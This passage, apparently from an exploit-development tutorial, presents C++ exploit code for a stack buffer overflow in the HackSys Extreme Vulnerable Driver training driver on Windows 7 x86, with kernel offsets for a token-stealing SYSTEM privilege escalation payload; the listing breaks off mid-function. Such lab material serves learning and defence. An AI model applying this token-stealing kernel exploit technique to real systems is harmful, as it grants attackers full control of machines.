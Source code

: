 
The final exploit code, cleaned up a bit, is below:

```c++
#include <windows.h>
#include <stdio.h>

//////////////////////////////////////////////////// 
//                                                //
//    Title: HEVD x86 Stack Overflow              //
//    Platform: Windows 7 x86                     //
//    Author: Jeremy Dunn (@stolenfootball)       //
//    Website: https://stolenfootball.github.io   //
//                                                //
////////////////////////////////////////////////////


/*  
*   This program exploits a standard stack based buffer overflow in the 0x800 
 *  IOCTL of the HEVD (https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
 *  driver.  The exploit is valid on Windows 7 x86 kernels.
 * 
 *  The driver takes in an arbitrary buffer from the user and performs an unchecked
 *  memcpy into a statically sized stack-based buffer in the kernel.
 * 
 *  The kernel stack buffer is 0x800 bytes long.  The driver uses EH4 SEH, which results  
 *  in a 0x1c byte registration struct on the stack.  As such, bytes 0x820 through 0x824
 *  overflow the return address of the vulnerable function.  There is no need to fix the
 *  registration struct as it is unused after the overflow occurs.
 */

 
// Constants for shellcode
#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define EH4_REGISTRATION_NODE_SIZE 28


INT TriggerExploit(HANDLE hDevice);
VOID TokenStealingPayloadWin7Generic();

INT main() {
    HANDLE hDevice { nullptr };
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";
    INT result { -1 };

    printf("[*] Author: @stolenfootball\n");
    printf("[*] Website: https://stolenfootball.github.io\n\n");

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        nullptr,
```